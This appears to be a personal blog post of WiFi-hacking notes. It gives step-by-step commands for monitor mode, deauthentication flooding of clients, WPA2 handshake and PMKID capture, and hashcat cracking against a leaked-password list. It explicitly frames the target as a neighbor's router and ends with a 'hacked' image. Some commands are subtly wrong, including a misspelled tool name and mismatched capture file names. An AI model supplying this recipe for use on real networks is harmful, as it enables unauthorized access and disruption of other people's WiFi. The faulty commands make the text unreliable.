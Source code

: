 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 2021-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 


Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlo1mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlo1mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlo1mon`

When the client connects back, we capture the 4-way handshake packets EAPOL Packets, and they are stored to the .cap files 

We dont need to decrypt this, rather we just need to match with the leaked password list and get the wifi password !! 


#  scan the wifi : 
sudo iwlist scan 

# top networks
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv

# set the channel to capture
sudo iw dev wlo1mon set channel 1

# get all wifi present and bssid
sudo iw dev wlo1 scan 

## Get into monitor mode 
sudo airmon-ng start wlo1

## manager mode
sudo airmon-ng stop wlo1mon


## airodump : 
sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon

eg:
sudo airodump-ng --bssid 6c:4f:89:9a:3f:af -c 44 -w capture wlo1mon

## aireplay 

sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one


# HASHCAT for WPA-2

## PMKID ( Pairwise Master Key Identifier (PMKID) )

# hcxdump-tool
sudo hcxdumptool -i wlo1mon -w pmkid.pcapng --rds=1

# Tool to unpack
hcxpcapngtool -o pmkid.hccapx pmkid.pcapng

# Decode 
hashcat -m 22000 pmkid.hc22000 rockyou.txt --force


![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)






